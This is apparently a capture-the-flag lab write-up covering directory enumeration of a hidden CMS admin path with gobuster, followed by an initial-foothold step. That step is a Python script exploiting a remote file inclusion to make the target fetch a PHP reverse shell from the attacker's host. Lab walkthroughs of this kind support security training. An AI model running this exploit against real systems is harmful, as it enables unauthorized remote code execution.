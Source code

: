 ```
# cat important.txt

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

http://10.10.207.32/45kra24zxs28v3yd/

### gobuster
```
/45kra24zxs28v3yd/administrator        (Status: 301) [Size: 337] [--> http://10.10.207.32/45kra24zxs28v3yd/administrator/]
/45kra24zxs28v3yd/index.html           (Status: 200) [Size: 418]
```
`/45kra24zxs28v3yd/administrator/`

```
/alerts               (Status: 301) [Size: 344] [--> http://10.10.207.32/45kra24zxs28v3yd/administrator/alerts/]
/classes              (Status: 301) [Size: 345] [--> http://10.10.207.32/45kra24zxs28v3yd/administrator/classes/]
/components           (Status: 301) [Size: 348] [--> http://10.10.207.32/45kra24zxs28v3yd/administrator/components/]
/index.php            (Status: 200) [Size: 4945]
/index.php            (Status: 200) [Size: 4945]
/js                   (Status: 301) [Size: 340] [--> http://10.10.207.32/45kra24zxs28v3yd/administrator/js/]
/media                (Status: 301) [Size: 343] [--> http://10.10.207.32/45kra24zxs28v3yd/administrator/media/]
/templates            (Status: 301) [Size: 347] [--> http://10.10.207.32/45kra24zxs28v3yd/administrator/templates/]

```

## Initial foothold

https://www.exploit-db.com/exploits/25971?ref=blog.tryhackme.com


```
import requests, os

print(banner)

LHOST = input("LHOST : ")
LPORT = input("LPORT : ")
FILE = input("FILE Name : ")

URL = input("URL : ")

# URL = http://10.10.207.32/45kra24zxs28v3yd/administrator/
# FILE = php-reverse-shell.php (pentestmonkey)

urlPath = URL + "alerts/alertConfigField.php?urlConfig=http://" + LHOST + ":" + LPORT + "/" + FILE

s = requests.Session()

s.post(url=urlPath)

```

